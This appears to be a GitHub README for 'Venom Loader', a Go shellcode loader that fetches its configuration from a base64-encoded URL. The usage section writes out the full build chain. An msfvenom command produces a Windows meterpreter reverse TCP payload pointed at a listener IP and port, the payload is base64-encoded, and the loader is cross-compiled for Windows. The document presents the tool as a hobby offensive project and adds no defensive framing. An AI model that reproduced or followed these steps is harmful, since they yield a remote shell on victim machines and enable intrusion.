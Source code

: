 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples
Modify the main.go and instr file to suit your situation before doing any of the below.
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
export GOOS=windows;export GOARCH=amd64 #Only if compiling on linux for windows
go build
```
At this point the loader as well as a basic payload should be ready.




## To-Do

- Make a builder script that simplifys creation of the JSON and binary.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.
- Come up with a better name for the damned thing.
